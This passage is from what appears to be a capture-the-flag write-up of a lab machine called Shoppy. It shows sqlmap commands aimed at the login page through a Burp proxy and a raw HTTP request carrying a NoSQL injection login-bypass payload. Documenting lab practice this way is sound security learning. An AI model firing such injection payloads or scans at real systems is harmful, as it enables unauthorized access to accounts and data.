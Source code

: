 ## Foothold 

I attempted to run sqlmap against http://shoppy.htb/login, but kept getting timeout errors:

```
[17:43:29] [CRITICAL] connection timed out to the target URL or proxy. sqlmap is going to retry the request(s)
[17:44:59] [CRITICAL] connection timed out to the target URL or proxy
```

 I next ran sqlmap through burp suite and checked the intercepted traffic:

```bash
$sqlmap -u "http://shoppy.htb/login" --data "username=*&password=*" --proxy "http://127.0.0.1:8080" --headers="User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0"
```

![](./2022-12-25-17-47-52-image.png)

At this point, it appeared to my novice eyes as though a WAF (web app firewall) was blocking SQL injection attempts (maybe?) as 'normal' login attempts result in a 302 redirect, not a 504 gateway timeout.

I did notice the timeouts only occur when injecting into user, not password -- so I suspected that this was the exploitable input field..

But the above was a modified intercepted request from Firefox with a legitimate user agent string along with other headers -- so perhaps not a WAF and something else?..

After a little while of unsuccessful SQL Injection both with SQLMap and manuall, I back tracked a little to look at other injection techniques and started reading [NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

I then tried the following to see if I was dealing with some document database that could be injected into:

```
POST /login HTTP/1.1
Content-Length: 42
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Host: shoppy.htb
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

username=admin' || 1==1%00&password=foobar
```
